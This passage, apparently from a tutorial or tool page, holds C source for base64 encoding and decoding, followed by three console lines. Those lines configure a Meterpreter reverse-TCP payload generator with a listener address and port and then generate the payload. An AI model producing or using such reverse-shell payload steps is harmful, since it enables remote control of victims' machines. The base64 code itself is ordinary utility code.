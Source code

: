 ```c
                *(p + 3) = '=';
            }
            else if (pad_num == 2) { // 编码后的数据要补两个 '='
                *(p + 1) = base64_alphabet[(int)cmove_bits(*indata, 6, 2)];
                *(p + 2) = '=';
                *(p + 3) = '=';
            }
        }
        else { // 处理正常的3字节的数据
            *(p + 1) = base64_alphabet[cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4)];
            *(p + 2) = base64_alphabet[cmove_bits(*(indata + 1), 4, 2) + cmove_bits(*(indata + 2), 0, 6)];
            *(p + 3) = base64_alphabet[*(indata + 2) & 0x3f];
        }

        p += 4;
        indata += 3;
    }

    if (outlen != NULL) {
        *outlen = out_len;
    }

    return ret;
}


int base64_decode(const char *indata, int inlen, char *outdata) {

    int ret = 0;
    if (indata == NULL || inlen <= 0 || outdata == NULL ) {
        return ret = -1;
    }
    if (inlen % 4 != 0) { // 需要解码的数据不是4字节倍数
        return ret = -2;
    }

    int t = 0, x = 0, y = 0, i = 0;
    unsigned char c = 0;
    int g = 3;

    while (indata[x] != 0) {
        // 需要解码的数据对应的ASCII值对应base64_suffix_map的值
        c = base64_suffix_map[indata[x++]];
        if (c == 255) return -1;// 对应的值不在转码表中
        if (c == 253) continue;// 对应的值是换行或者回车
        if (c == 254) { c = 0; g--; }// 对应的值是'='
        t = (t << 6) | c; // 将其依次放入一个int型中占3字节
        if (++y == 4) {
            outdata[i++] = (unsigned char)((t >> 16) & 0xff);
            if (g > 1) outdata[i++] = (unsigned char)((t >> 8) & 0xff);
            if (g > 2) outdata[i++] = (unsigned char)(t & 0xff);
            y = t = 0;
        }
    }

    return ret;
}
```


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate